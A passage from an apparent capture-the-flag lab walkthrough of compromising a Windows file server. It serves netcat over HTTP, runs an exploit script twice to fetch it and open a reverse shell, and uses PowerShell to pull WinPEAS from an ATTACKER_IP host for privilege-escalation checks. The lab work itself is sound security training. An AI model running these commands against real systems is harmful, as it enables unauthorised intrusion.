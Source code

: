 except:

print ("""\[.]Something went wrong..!

Usage is :\[.] python exploit.py \<Target IP address> \<Target Port Number>

Don't forgot to change the Local IP address and Port number on the script""")

**2. Download netcat static binary from**[ **GitHub**](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)**.**

* Rename binary to "nc.exe" to work with exploit script.

mv ncat.exe nc.exe

**3. Serve nc binary using python web server.**

python3 -m http.server 8000

* HTTP server must be running from directory where nc.exe resides.

**4. Start listener to catch reverse shell.**

nc -lvnp 4444

**5. Run exploit.**

python3 exploit.py 10.10.81.255 8080

* Nmap previously identified that web file server listening on port 8080.
* Run exploit twice.
  * First run will pull netcat binary to target via GET request.

TARGET\_IP - - \[23/Feb/2024 09:53:54] "GET /nc.exe HTTP/1.1" 200 -

* Second run will execute payload to gain a callback.

Connection from TARGET\_IP 49245 received!

Microsoft Windows \[Version 6.3.9600]

(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>

whoami

steelmountain\bill

**6. Download WinPEAS to attacking machine.**

wget https://github.com/carlospolop/PEASS-ng/releases/download/20240221-e5eff12e/winPEASany.exe

**7. Transfer WinPEAS to target.**

cd %userprofile$\desktop

powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER\_IP:8000/winPEASany.exe' -OutFile 'C:\Users\bill\Desktop\winPEAS.exe'"

**8. Execute WinPEAS on target**

.\winpeas.exe servicesinfo

* servicesinfo limits output to just services.
* Provides details of services using unquoted paths.
